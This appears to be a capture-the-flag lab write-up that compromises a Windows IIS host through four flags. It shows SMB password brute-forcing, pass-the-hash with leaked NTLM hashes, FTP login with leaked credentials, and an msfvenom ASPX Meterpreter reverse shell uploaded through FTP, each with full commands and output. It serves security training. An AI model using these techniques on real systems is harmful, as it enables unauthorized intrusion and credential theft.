

## Tasks



## Enumeration

```
nmap -sCV target.ine.local
```

```
PORT      STATE SERVICE            VERSION
21/tcp    open  ftp                Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info:
|   Target_Name: WIN-M878Q9NE9S6
|   NetBIOS_Domain_Name: WIN-M878Q9NE9S6
|_  Product_Version: 6.3.9600

Host script results:
| smb2-security-mode:
|_    Message signing enabled but not required
```

---
## Flag 1

> _Looks like smb user **tom** has not changed his password from a very long time._

A password brute-force against the SMB service is run for user `tom` using Metasploit's `smb_login` scanner:

```
msf6 auxiliary(scanner/smb/smb_login) > set rhost target.ine.local
msf6 auxiliary(scanner/smb/smb_login) > set smbuser tom
msf6 auxiliary(scanner/smb/smb_login) > set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
msf6 auxiliary(scanner/smb/smb_login) > run
```

```
[-] 10.2.24.142:445 - Failed: '.\tom:rosita',
[-] 10.2.24.142:445 - Failed: '.\tom:happy1',
[+] 10.2.24.142:445 - Success: '.\tom:felipe'
```

Creds recovered: `tom:felipe`. The module opens an authenticated SMB session automatically, which is used to enumerate available shares:

```
msf6 auxiliary(scanner/smb/smb_login) > sessions -i 1
SMB (10.2.17.221) > shares
```

```
#  Name         Type          comment
-  ----         ----          -------
0  ADMIN$       DISK|SPECIAL  Remote Admin
1  C$           DISK|SPECIAL  Default share
2  D$           DISK|SPECIAL  Default share
3  HRDocuments  DISK
4  IPC$         IPC|SPECIAL   Remote IPC
5  ITResources  DISK
6  print$       DISK          Printer Drivers
```

`tom` has access to `HRDocuments`. Connecting to it and reading the flag:

```
SMB (10.2.17.221) > shares -i HRDocuments
[+] Successfully connected to HRDocuments
SMB (10.2.17.221\HRDocuments) > cat flag1.txt
```

```
518e7c2e3e504186ace334d7e7f14c6e
```

---
## Flag 2

> _Using the NTLM hash list discovered in the previous challenge, can you compromise the smb user **nancy**?_

Listing `HRDocuments` reveals the hint file alongside the flag:

```
SMB (10.2.17.221\HRDocuments) > ls
2  FILE  flag1.txt          34
3  FILE  leaked-hashes.txt  6665
```

`leaked-hashes.txt` contains a list of NTLM credential pairs in `LM:NTLM` format (e.g. `aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5317ad`). The file is downloaded locally:

```
SMB (10.2.17.221\HRDocuments) > download leaked-hashes.txt
[+] Downloaded leaked-hashes.txt to leaked-hashes.txt
```

Rather than cracking these hashes, they can be replayed directly — SMB authentication accepts an NTLM hash in place of a plaintext password (pass-the-hash). The hash list is fed back into `smb_login` as the password file, this time targeting `nancy`:

```
msf6 auxiliary(scanner/smb/smb_login) > set smbuser nancy
msf6 auxiliary(scanner/smb/smb_login) > set pass_file leaked-hashes.txt
msf6 auxiliary(scanner/smb/smb_login) > run
```

```
[+] 10.2.16.252:445 - Success: '.\nancy:aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5317ad'
[*] SMB session 2 opened (10.10.41.2:41617 -> 10.2.16.252:445)
```

A new session is opened as `nancy` , which grant access to a different share:

```
SMB (10.2.16.252) > shares -i ITResources
[+] Successfully connected to ITResources
SMB (10.2.16.252\ITResources) > ls
2  FILE  flag2.txt  34
3  FILE  hint.txt   71

SMB (10.2.16.252\ITResources) > cat flag2.txt
```

```
4bd93ed68d6d47878655d64adb4b299a
```

---
## Flag 3

> _I wonder what the hint found in the previous challenge be useful for!_

The `hint.txt` file sitting next to `flag2.txt` leaks a set of plaintext credentials:

```
SMB (10.2.16.252\ITResources) > cat hint.txt

Who knows, these creds might come handy! ---> david:omnitrix_9901
```

These credentials work against the FTP service identified during enumeration on port 21:

```
ftp david@target.ine.local
Password:
230 User logged in.

ftp> ls
06-16-26  08:13PM   34 flag3.txt
06-13-24  10:34AM   99710 iis-85.png
06-13-24  10:34AM   701 iisstart.htm

ftp> more flag3.txt
```

```
97226eb7df364de1a094c68cd7318fba
```

---
## Flag 4

> _Can you compromise the target machine and retrieve the **C:\flag4.txt** file?_

The files visible over FTP (`iisstart.htm`, `iis-85.png`) match IIS's default site content, indicating the FTP root and the IIS web root are the same directory, meaning anything uploaded via FTP becomes directly requestable over HTTP. An ASPX Meterpreter payload is generated with `msfvenom`:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.37.4 LPORT=1111 -f aspx > shell1.aspx
```

David's FTP credentials are used to upload it into the web root:

```
ftp david@target.ine.local
ftp> put shell1.aspx
226 Transfer complete.
```

A handler is started to catch the callback on the attack host:

```
msf6 exploit(multi/handler) > set LHOST eth1
msf6 exploit(multi/handler) > set LPORT 1111
msf6 exploit(multi/handler) > run
```

The payload is triggered by simply requesting it over HTTP, executing the embedded shellcode under the IIS worker process:

```
curl http://target.ine.local/shell1.aspx
```

```
[*] Sending stage (201798 bytes) to 10.2.30.38
[*] Meterpreter session 1 opened (10.10.37.4:1111 -> 10.2.30.38:49456)
```

Dropping to a shell and reading the flag from the filesystem root:

```
meterpreter > shell
c:\windows\system32\inetsrv>type c:\flag4.txt
```

```
2638bc21060149b38373b6fa191e591f
```

---
## Summary

|#|Technique|Flag|
|---|---|---|
|1|SMB password brute-force (`tom`)|`518e7c2e3e504186ace334d7e7f14c6e`|
|2|Leaked NTLM hash list + pass-the-hash (`nancy`)|`4bd93ed68d6d47878655d64adb4b299a`|
|3|Plaintext creds in `hint.txt` + FTP login (`david`)|`97226eb7df364de1a094c68cd7318fba`|
|4|ASPX webshell upload via FTP + Meterpreter RCE|`2638bc21060149b38373b6fa191e591f`|